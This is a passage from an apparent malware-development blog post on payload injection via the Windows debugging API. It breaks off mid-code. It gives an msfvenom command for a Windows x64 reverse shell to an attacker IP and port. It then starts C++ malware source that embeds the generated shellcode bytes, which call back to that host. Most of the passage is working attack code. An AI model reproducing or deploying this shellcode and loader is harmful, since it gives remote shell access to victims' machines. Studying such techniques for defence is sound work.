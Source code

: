 In this post we will discuss about a classic technique which are payload injection using debugging API.

Firstly, let's go to prepare our payload. For simplicity, we use `msfvenom` reverse shell payload from Kali linux.

On attacker's machine run:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.1.6 LPORT=4444 -f c
```

where `10.9.1.6` is our attacker's machine IP address, and `4444` is port which we run listener later.

![msfvenom](/assets/images/6/2021-09-18_20-28.png){:class="img-responsive"}

Let's start with simple C++ code of our malware, which is used by me in [AV evasion part 1](/tutorial/2021/09/04/simple-malware-av-evasion.html) post:
```cpp
/*
cpp implementation malware example with msfvenom payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload: reverse shell (msfvenom)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
```